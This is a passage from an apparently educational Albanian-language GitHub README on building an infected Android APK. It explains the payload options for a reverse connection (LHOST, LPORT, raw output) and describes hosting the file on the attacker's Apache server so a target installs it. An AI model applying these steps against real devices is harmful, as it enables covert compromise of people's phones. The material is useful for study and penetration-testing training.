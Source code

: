 | Shkurtesa                  | Shpjegimi                                                              |
| -------------------------- | ---------------------------------------------------------------------- |
| -p                         | Specifikon llojin e payload që përdoret.                               |
| LHOST IP                   | Adresa e sistemit e cila do të përdoret për të pritur lidhjen prapa.   |
| LPORT                      | Porti i sistemit që do të presë për komunikim me sistemin e targetuar. |
| R                          | Raw format (format i papërpunuar).                                     |
| /root/Desktop/OurApp.apk | Lokacioni ku ruhet APK aplikacioni i krijuar.                          |



<center>
<img width="100%" src="READMEresources/krijimi_i_apk_fajllit.gif"/>
<figcaption><small><i>Video 1: Krijimi i apk fajllit</i></small></figcaption>
</center>

### Kalimi i aplikacionit të infektuar tek sistemi targetuar

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Për shkak që shumica e platformave online e detektojnë një fajll i cili ka përmajtje kërcënuese për sigurinë, kalimin e fajllit të infektuar nga sulmuesi tek sistemi e targetuar e bëjmë përmes web serverit të apache në linux. Sulmuesi e vendos fajllin e infetuar në lokacionin `/var/www/html/` dhe sistemi i targetuar duke u çasur në browser në IP adresën e sulmuesit mund të gjej aplikacionin dhe ta instaloj. Komanda për ta startuar apache serverin është:

```
$ service apache2 start
// Komanda për të shikuar statusin e apache serverit
$ service apache2 status
```




<table width="100%" border="0">
<tr>